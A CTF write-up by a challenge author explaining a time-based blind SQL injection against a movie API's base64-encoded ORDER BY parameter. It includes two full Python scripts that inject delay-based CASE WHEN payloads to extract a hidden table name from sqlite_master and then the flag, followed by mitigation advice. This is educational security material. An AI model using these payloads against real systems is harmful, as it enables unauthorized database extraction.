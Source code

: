 ```yaml
---
categories: [ShunyaCTF]
tags: [web exploitation, SQL injection]     # TAG names should always be lowercase
author: Darshan
description: Web exploitation category challenge created by me for ShunyaCTF 2k24
image:
    path: /assets/img/Banners/the-time-stone.jpg
pin: False
---
```


# Solution for Time-Based SQL Injection

## Challenge Overview

In this challenge, we exploited a time-based SQL injection vulnerability to extract the name of a dynamically generated table and retrieve the secret value stored within it. The challenge demonstrates the importance of secure coding practices and validates the effectiveness of SQL injection as an attack vector when inputs are not properly sanitized.

## Vulnerability Explained

Time-based SQL injection occurs when an attacker can influence the execution time of a database query to infer data. This type of injection is useful when direct data retrieval is not possible, but the application’s behavior can be observed based on the time it takes to execute certain queries.

The vulnerability in this challenge allowed attackers to:
1. Identify the name of a table with a specific prefix (`secret_`).
2. Extract the content of a column (in this case, the `text` column containing the secret flag) from the identified table.

The exploitation relied on crafting SQL queries that deliberately caused a delay (using a hypothetical `zhopi()` function) when a specific condition was met. By measuring the response time, the attacker could deduce whether the condition was true or false, thus extracting data character by character.

## Application Walkthrough

*(Leave it empty, I'll fill the details)*

## Solution Script Walkthrough

### 1. Finding the Table Name

The first part of the solution involved finding the dynamically generated table name. The `sqlite_master` table was queried to locate tables with names starting with `secret`. By leveraging the `SUBSTR` function, each character of the table name was extracted iteratively.

```python
# Script to find the table name
import requests
import base64
import json
import time

url = '<url for the chall>'

secret = list()
table_name = 'secret'
chars = 'abcdefghijklmnopqrstuvwxyz_'
sleep_time = 1

while True:
    found = False
    for i in chars:
        payload = f"(CASE WHEN (SELECT SUBSTR(name,{len(table_name)+1},1) FROM sqlite_master WHERE type='table' AND name LIKE 'secret%')='{i}' THEN id + zhopi({sleep_time}) ELSE rating END) DESC"

        encoded_payload = base64.b64encode(payload.encode()).decode('utf-8')

        data = {
            'sequence': encoded_payload
        }
        start_time = time.time()
        r = requests.post(
            url + '/api/movies',
            data=json.dumps(data),
            headers={'Content-Type': 'application/json'}
        )
        end_time = time.time()

        elapsed_time = end_time - start_time

        if elapsed_time >= sleep_time:
            table_name += i
            found = True
            print(f"Found character: {i}, updated table name: {table_name}")
            break
        else:
            print(f"\rTrying for: {i} at index: {len(table_name)}, elapsed time: {elapsed_time}", end="")

    if not found:
        print("No matching character found.")
        break

print(f"Final table name: {table_name}")
```

### 2. Extracting the Secret Value

After identifying the table name, the second script was used to extract the secret value. Similar logic was applied, but this time, the `text` column of the identified table was queried.

```python
# Script to find the value from the table
import requests
import base64
import json
import time

url = '<url for the chall>'

flag = ''
chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
sleep_time = 1

while True:
    found = False
    for i in chars:
        payload = f"(CASE WHEN (SELECT SUBSTR(text,{len(flag)+1},1) FROM secret_oezxsbhh_text WHERE id=1)='{i}' THEN id + zhopi({sleep_time}) ELSE rating END) DESC"

        encoded_payload = base64.b64encode(payload.encode()).decode('utf-8')

        data = {
            'sequence': encoded_payload
        }
        start_time = time.time()
        r = requests.post(
            url + '/api/movies',
            data=json.dumps(data),
            headers={'Content-Type': 'application/json'}
        )
        end_time = time.time()

        elapsed_time = end_time - start_time

        if elapsed_time >= sleep_time:
            flag += i
            found = True
            print(f"\nFound character: {i}, updated flag: {flag}")
            break
        else:
            print(f"\rTrying for: {i} at index: {len(flag)}, elapsed time: {elapsed_time}", end="")

    if not found:
        print("\nNo matching character found.")
        break

print(f"\nFinal flag: {flag}")
```

## How to Use the Solution Script

1. Update the `url` variable with the challenge URL.
2. Run the first script to find the table name.
   - Ensure the server is running and accessible.
   - The script will output the discovered table name.
3. Update the second script with the identified table name.
   - Replace `secret_oezxsbhh_text` with the discovered table name.
4. Run the second script to extract the secret value (flag).
   - The script will iteratively reveal the flag character by character.

## Conclusion

This challenge highlighted the importance of mitigating SQL injection vulnerabilities by:
- Validating and sanitizing user inputs.
- Using parameterized queries to prevent attackers from injecting malicious SQL.
- Disabling potentially harmful database functions or queries.

Understanding and exploiting time-based SQL injection requires patience and precision, making it an effective learning exercise for aspiring security professionals.

